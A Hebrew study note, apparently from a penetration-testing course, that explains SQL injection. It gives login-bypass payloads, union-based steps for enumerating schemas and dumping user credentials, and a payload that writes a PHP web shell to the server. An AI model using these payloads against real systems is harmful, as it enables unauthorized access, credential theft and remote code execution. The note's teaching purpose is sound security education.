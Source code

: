 SQLI - SQL Injection
* הSQLI היא פגיעות שבה תוקף מבצע מניפולציות בשאילתת SQL של אתר אינטרנט על ידי הזרקת קוד SQL זדוני לשדות קלט
# אינדיקציה
## אופציה 1 - עקיפת תהליך התחברות
* נהיה בפאנל התחברות שאין אופציה להירשם (לפעמים מחכמים ואפשר להירשם כדי להתבחר למערכת)
* צריך לרשום למשל משתמש וסיסמה - נורה אדומה חזקה כי מול מסד נתונים נעשה אימות
* לפעמים במצב כזה יתנו לנו משתמש שנצטרך להתחבר אליו ואז למצוא שיטה להתחבר בלי סיסמה
![[Pasted image 20250723014306.png]]
* מאחורי הקלעים השאילתה נראית ככה שזה אומר אם שם משתמש נכון **וגם** סיסמה - תתחבר
```sql
SELECT * FROM logins WHERE username='test' AND password = '1234';
```
### שלבי פעולה
#### תרחיש א' - OR Injection
* נצטרך איכשהו לגרום לשגיאה כדי לקבל אינדיקציה שיש פגיעות (לא מחייב אבל זה התרחיש הנפוץ)
* זה אומר שנשים איזה אלמנט שמשבש שאילתות SQL למשל:
```
'		
"		
#		
;		
)		
```
* למשל נרשום בשם משתמש משהו ואז ישר את אחד התווים הנ"ל
* אם תהיה שגיאת סינטקס או משהו שייתן אינדיקציה שביצענו שגיאה במערכת זה אינדיקציה טובה שהוא פגיע
* אם הוא פגיע ננסה להזריק תנאי שהוא
```
admin' or '1'='1
```
* מאחורי הקלעים השאילתה תרוץ ככה
```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```
* וזאת שאילתה שגם המשתמש הוא אדמין וגם הסיסמה מחזירה true אז הוא יתחבר
![[Pasted image 20250723014912.png]]
#### תרחיש ב' - הערות
* בSQL ניתן לעשות הערה בשאילתה ואז היא מתעלמת מההמשך, אפשר לנצל את זה כדי שהDB לא יבדוק בכלל סיסמה
* צריך לשים לב שכל סוג SQL יש לו הערות שונות (חלק #, חלק -- -, חלק הערה זה רק רווח תלוי בסוג)
* מאחורי הקלעים זה יראה משהו כזה:
```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```
* אז נזריק למשל לשם משתמש דברים הערות כאלה כדי לעקוף
```sql
admin' -- -
admin' #
```
* יכול להיות גם תנאים מסובכים יותר שמערבים כמה אלמנטים 
## אופציה 2 - מידע שחוזר ממסד נתונים
* יהיה שדה קלט כלשהו שדרכו נוכל לחפש פריט או פוסט או כל דבר ששמור איפשהו
	* באתר כInput
	* ערך בURL
	* משתנה בגוף הבקשה
* יוצג משהו באתר שידליק לנו נורה שזה חייב להיות מידע מסד נתונים
	* ויזואלית נראה טבלה
	* נראה אתר שמחזיר משהו כמו אתר קניות שאני בקלט שם למשל מכנסיים ואז הוא מחזיר לי רק בגדים מסוג מכנסיים
### תרחיש
* יש 3 סוגים של מתקפות SQL מהסוג הזה
	* מתקפות inbound (הסביר)- מתקפות שנוכל לראות את ההשפעה של המתקפה
	* מתקפות בינאריות (פחות סביר) - נקבל אינדיקציה של true false על פעולה 
	* מתקפות outbound - זה מתקפות blind sql עם הקמת שרת, זה מסובך מדי סביר שזה לא יהיה
לדוגמא:
![[Pasted image 20250723020139.png]]
![[Pasted image 20250723020146.png]]
![[Pasted image 20250723020151.png]]

במצב שזיהינו שיש עמוד עם מידע שמחזיר ממסד נתונים יש 6 שלבים סדורים מה לעשות:
1) זיהוי - ננסה להכשיל על ידי תווים מיוחדים כמו באופציה 1, מה שיתן אינדיקציה שיש פגיעות אם גרמנו לשגיאה
	* לא מחייב, יש מצב לא יהיה שגיאה אבל אם יש זה מחזק - אם לא אפשר להמשיך רגיל
2) גילוי כמה עמודות יש
	1) שיטת order by
```sql
' order by 1-- -
' order by 2-- -
' order by 3-- -
' order by 4-- -
' order by 5-- -
```
2) שיטת union
```sql
cn' UNION select 1-- -
cn' UNION select 1,2-- -
cn' UNION select 1,2,3-- -
cn' UNION select 1,2,3,4-- -
```
![[Pasted image 20250723020210.png]]
3) גילוי שם מסד נתונים
```sql
asd' union select 1,DATABASE(),3,4,5-- -
```
![[Pasted image 20250723020236.png]]
4) גילוי שמות טבלאות
```sql
asd' union select 1,table_name,3,4,5 FROM information_schema.tables WHERE table_schema = 'ilfreight'-- -
```
![[Pasted image 20250723020302.png]]
5) גילוי שמות עמודות בטבלה ספציפית
```sql
asd' union select 1,column_name,3,4,5 FROM information_schema.columns WHERE table_name = 'users'-- -
```
![[Pasted image 20250723020329.png]]
6) שאיבת נתונים המלאים
```sql
asd' UNION SELECT 1, CONCAT(id, ':', username, ':', password), 3, 4,5 FROM users-- -
```
![[Pasted image 20250723020459.png]]
* לפעמים יכול להיות כמה מסדי נתונים אז אפשר לחפש סד נתונים אחר ולבצע שוב את התהליך עליו כדי לחפש משהו
```sql
cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -
```
![[Pasted image 20250723020534.png]]
* כאן למשל יש גם מסד נתונים בשם mysql

# אופציה 3 - SQLI to RCE (תרחיש פחות סביר)
יש לפעמים תרחישים שניתן לבצע הזרקה של קוד כמו [[RCE]]
```sql
cn' union select 1,'<?php system($_REQUEST[0]); ?>', 3, 4,5 into outfile '/var/www/html/dashboard/shell.php'-- -
```
![[Pasted image 20250723020730.png]]
* ואז ברגע שיש shell אפשר לחפש מה שרוצים במערכת
![[Pasted image 20250723020748.png]]

# ניצול
1) זיהוי קלט פגיע
2) הזרקת קוד SQL זדוני
3) ביצוע מתודולוגיה פריצה למסד נתונים
4) קבלת גישה מלאה